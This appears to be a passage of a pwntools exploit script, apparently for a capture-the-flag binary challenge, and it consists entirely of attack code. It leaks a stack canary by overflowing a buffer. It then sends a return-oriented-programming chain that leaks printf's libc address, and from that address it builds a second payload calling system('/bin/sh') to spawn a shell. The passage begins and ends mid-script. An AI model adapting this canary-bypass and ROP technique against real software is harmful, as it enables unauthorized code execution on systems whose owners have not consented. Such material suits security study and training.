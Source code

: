 p.recvline()
sleep(0.1)

p.sendline('A'*57)
sleep(0.1)

p.recvline()
sleep(0.1)

p.recv(0x39)
sleep(0.1)
canary=u64(p.recv(7).rjust(8,'\x00'))

p.recvuntil('(Yes/No)\n')
sleep(0.1)

p.sendline('Yes')
sleep(0.1)

log.info('canary is '+str(hex(canary)))
sleep(0.1)

payload='A'*0x38
payload+=p64(canary)
payload+='A'*0x38
payload+=p64(canary)
payload+='A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(printf_got)
payload+=p64(printf_plt)
payload+=p64(main)

p.recvline()
sleep(0.1)

p.sendline(payload)
sleep(0.1)

p.recvuntil('(Yes/No)\n')
sleep(0.1)

p.sendline('No')
sleep(0.1)

printf_address=u64(p.recv(5).rjust(6,'\x00').ljust(8,'\x00'))
sleep(0.1)

log.info('printf_address is '+str(hex(printf_address)))

libc_base=printf_address-printf_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

payload2='A'*0x38
payload2+=p64(canary)
payload2+='A'*0x38
payload2+=p64(canary)
payload2+='A'*8
payload2+=p64(pop_rdi_ret)
payload2+=p64(binsh_address)
payload2+=p64(system_address)
